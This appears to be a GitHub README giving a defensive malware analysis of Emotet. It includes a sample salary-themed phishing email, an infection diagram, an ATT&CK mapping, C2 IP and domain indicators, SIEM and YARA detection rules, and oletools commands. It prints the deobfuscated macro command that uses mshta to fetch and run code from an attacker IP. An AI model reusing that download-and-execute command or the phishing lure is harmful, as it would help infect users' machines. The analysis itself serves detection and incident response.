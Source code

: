 # Emotet - The Malware Kingpin Exposed | Complete DFIR and malware analysis

**Linkedin** - https://www.linkedin.com/in/deepanshukhanna/
**Youtube Video link for complete analysis** - https://www.youtube.com/watch?v=pZceKO0QJQY
**Practical Digital Forensics and Incident Response - Amazon book link** - https://www.amazon.in/Digital-Forensics-Incident-Response-investigations/dp/9365898714


What is Emotet?
Emotet is a sophisticated, modular banking Trojan that evolved into a botnet used to deliver other types of malware such as ransomware (e.g., Ryuk, Conti) and steal sensitive information. It is primarily known for its highly effective phishing campaigns and worm-like propagation.

Initially discovered in 2014, Emotet was designed to steal banking credentials, but it later developed into a malware-as-a-service (MaaS) platform used by multiple cybercrime groups.

  Why Emotet is famous
1. **Modular Architecture**
Emotet consists of a main loader and multiple modules. The loader installs Emotet, maintains persistence, and downloads additional modules, including:
- Credential stealer
- Email harvester
- Spam bot
- Malware downloader (for TrickBot, QakBot, Ryuk, etc.)

2. **Polymorphic Code**
Emotet changes its payload structure frequently to avoid antivirus detection using polymorphism, where the malware dynamically alters its code during replication.

3. **Command and Control (C2) Infrastructure**
The botnet uses encrypted C2 communication and hardcoded IP lists for redundancy. Its architecture is often peer-to-peer, enhancing its resilience against takedowns.

-------------------------------------------------------------------------------------
**Email Lures**

From: hr-payroll@company-internal.com
To: employee@company.com
Subject: FY2025 Salary Adjustment Notice

Hi,

We’ve completed the annual compensation review. Your salary adjustment details are in the attached confidential memo.

Please do not share this document externally.

Regards,  
Meera Chauhan  
HR Manager – Compensation  
Company Internal HR  
Attachment: Salary_Adjustment_FY2025.doc
---------------------------------------------------------------------------------------
[Phishing Email]
     |
     v
[Malicious Word/Excel Doc w/ Macro]
     |
     v
[User Enables Macros]  --- the macro code contained the dropper and execution from the trusted paths / folders 
     |
     v
[Emotet Loader Execution]
     |
     v
[Connects to C2 Server]
     |
     +--> [Download Modules]
     |         ├─ Credential Stealer
     |         ├─ Email Stealer
     |         └─ Propagation Tools
     |
     +--> [Dropper for Payloads]
               ├─ TrickBot
               ├─ QakBot
               └─ Ransomware (e.g., Ryuk)

----------------------------------------------------------------
**MITRE ATT&CK Mapping for Emotet**
Initial Access	Phishing: Spearphishing Attachment -	T1566.001
Execution	User Execution: Malicious Document	- T1204.002
Persistence	Registry Run Keys / Startup Folder -	T1547.001
Privilege Escalation	Process Injection -	T1055
Defense Evasion	Obfuscated Files or Information -	T1027
Credential Access	Credentials from Web Browsers -	T1555.003
Discovery	System Information Discovery -	T1082
Lateral Movement	SMB/Windows Admin Shares -	T1021.002
Command & Control	Encrypted Channel over HTTP/S -	T1573.001
Collection	Email Collection -	T1114
Impact	Data Encrypted for Impact (via Ryuk) -	T1486

----------------------------------------------------------------
**Emotet: Indicators of Compromise (IOCs)**
Hashes (Sample Payloads)
SHA256: 3c8b3b7db9fcb73a3b55e9e4bb5c9d5c68d42128c87e478f92e165ba2ecf4e2a
SHA256: 21db61f8e72e2b237d84e78c8cbfb3834e38f229e7fcce44edb77293e4e18f3a

Known C2 IPs / Domains (frequently rotate)
185.149.120.14
185.7.214.7
45.95.168.196
forextart.com
gloryhotel[.]top

Filenames Used
INVOICE_458273.doc
Shipment_Tracking_032023.xls
Resume_JamesBrown.doc

File Paths

C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Templates\randomname.exe
C:\ProgramData\<random>.exe

------------------------------------------------------------------

**SIEM detection ---**

title: Emotet Execution via Office Macros
id: a1b2c3d4-5678-90ab-cdef-1234567890ef
status: stable
description: Detects suspicious use of Office applications spawning PowerShell or CMD indicative of Emotet infection
author: Security_analyst
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    ParentImage|endswith:
      - '\WINWORD.EXE'
      - '\EXCEL.EXE'
    Image|endswith:
      - '\powershell.exe'
      - '\cmd.exe'
  condition: selection
fields:
  - CommandLine
  - ParentImage
  - Image
  - User
  - Hostname
level: high
tags:
  - attack.execution
  - attack.t1204.002
  - malware.emotet

------------------------------------------------
**Yara rule **

rule Emotet_Loader_Detection
{
    meta:
        description = "Detects Emotet malware loader"
        author = "security_analyst"
        date = "2025-04-12"
        malware_family = "Emotet"
        reference = "https://malpedia.caad.fkie.fraunhofer.de/details/win.emotet"
    strings:
        $mz = { 4D 5A }                         // PE Header
        $http1 = "GET / HTTP/1.1" ascii
        $ua1 = "User-Agent: Mozilla/5.0" ascii
        $c2str = ".php?id=" ascii
        $exe_indicator = "Software\\Microsoft\\Windows\\CurrentVersion\\Run" ascii
        $randexe = "temp" ascii wide
        $email_harvest = "Outlook.Application" ascii
    condition:
        uint16(0) == 0x5A4D and
        all of ($mz*) and
        3 of ($http1, $ua1, $c2str, $exe_indicator, $email_harvest)
}
----------------------------------------------------------------
**Emotet analysis --**

sudo mraptor -m emotet.xls -- to detect the macros
sudo msodde -a emotet.xls  -- to detect the DDE links
sudo oleobj emotet.xls -v  -- oleobj is a script to extract embedded objects from OLE files.
sudo olebrowse emotet.xls  -- browser based olevba analysis 
								--- save it in the .bin (stream file)
								
sudo cat stream.bin

sudo oleid emotet.xls  
sudo olevba emotet.xls
sudo olevba emotet.xls --decode  ---  showing all obfuscated strings decoded
sudo olevba emotet.xls --reveal  -- macro source code with VBA strings deobfuscated

----------------
Original: cmd /c m^sh^t^a h^tt^p^:/^/0xb907d607/c^c.h^tm^l"

Cleaned version: cmd /c mshta http://0xb907d607/cc.html

hexadecimal to IP address -- https://www.browserling.com/tools/hex-to-ip
			0xb907d607  === 185.7.214.7

----------------------------------------
sudo qu1cksc0pe --file emotet.xls --vtFile
sudo qu1cksc0pe --file emotet.xls --domain
sudo qu1cksc0pe --file emotet.xls --docs

------------------------------------------------------------


This Excel file contains a hidden malicious macro (a small program) that runs automatically when the file is opened. Here's what it does:

1. What Happens When You Open the File?
The macro Auto_Open triggers immediately (like an autostart virus).

It runs a hidden command that downloads and executes malware from a attacker’s server.

2. The Malicious Command (Deobfuscated)
The macro contains an obfuscated (hidden) command:

cmd
cmd /c mshta http://0xb907d607/cc.html
cmd /c → Runs a command in the Windows terminal.

mshta → Executes a malicious HTML file (often used to run scripts silently).

http://0xb907d607/cc.html → An attacker-controlled website (IP in hex: 185.7.214.7).

3. What Does This Do?
Downloads malware from http://185.7.214.7/cc.html.

Executes it silently using mshta (Microsoft HTML Application).

Likely installs Emotet (a dangerous banking trojan/spyware) or ransomware.

4. Red Flags
Auto-execution (runs as soon as Excel opens).
Obfuscated URLs (hidden in hex & with ^ to evade detection).
Uses mshta (a common malware trick to bypass security).
Connects to a shady IP (185.7.214.7 – likely a malware server).

